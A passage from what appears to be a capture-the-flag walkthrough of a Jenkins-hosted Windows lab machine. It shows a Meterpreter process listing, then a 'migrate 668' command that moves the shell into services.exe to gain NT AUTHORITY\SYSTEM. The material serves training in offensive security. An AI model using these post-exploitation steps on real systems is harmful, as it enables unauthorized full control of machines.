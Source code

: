 ```
 1064  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1208  668   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1236  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1340  668   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1424  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1448  668   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1476  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1596  1808  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
 1636  668   jenkins.exe           x64   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jenkins.exe
 1704  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1808  1636  java.exe              x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jre\bin\java.exe
 1820  668   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1872  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 1892  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 1992  668   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 2060  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 2292  772   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 2532  1596  powershell.exe        x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 2636  668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 2676  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2996  668   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
```

Let's use `migrate 668` to migrate to process `services.exe` :  
```
meterpreter > migrate 668
[*] Migrating from 520 to 668...
[*] Migration completed successfully.
```

We are now running our shell as `NT AUTHORITY\SYSTEM` ! We have full control on the machine now.
